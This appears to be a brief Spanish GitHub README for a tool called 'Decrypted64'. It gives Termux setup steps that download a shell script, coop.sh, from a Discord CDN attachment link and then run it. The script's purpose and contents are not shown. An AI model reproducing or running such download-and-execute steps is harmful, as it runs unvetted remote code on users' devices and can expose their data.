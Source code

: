 # Decrypted64
### Se debera instalar `TERMUX` Si aun no lo tiene


## Comandos 
```
termux-change-repo

```
dar a enter hasta que se quite la ventana 
```
apt update
```
```
apt upgrade
```
___________________
```
pkg install openssl
```
```
pkg install wget -y
```
```
wget https://cdn.discordapp.com/attachments/1168244677057720383/1192704129856979016/coop.sh
```
```
chmod +x coop.sh
```
```
./coop.sh
```
## Listo es todo
<h3 align="left">Connect with me: -> 🌐</h3>
<p align="left">
<a href="https://youtube.com/@Retired64" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/youtube.svg" alt="xxcmbrxx" height="30" width="40" /></a>
<a href="https://discord.com/invite/c8xzhnvmB8" target="blank"><img align="center" src="https://raw.githubusercontent.com/rahuldkjain/github-profile-readme-generator/master/src/images/icons/Social/discord.svg" alt="https://discord.gg/CdCujG4WcU" height="30" width="40" /></a>
</p>
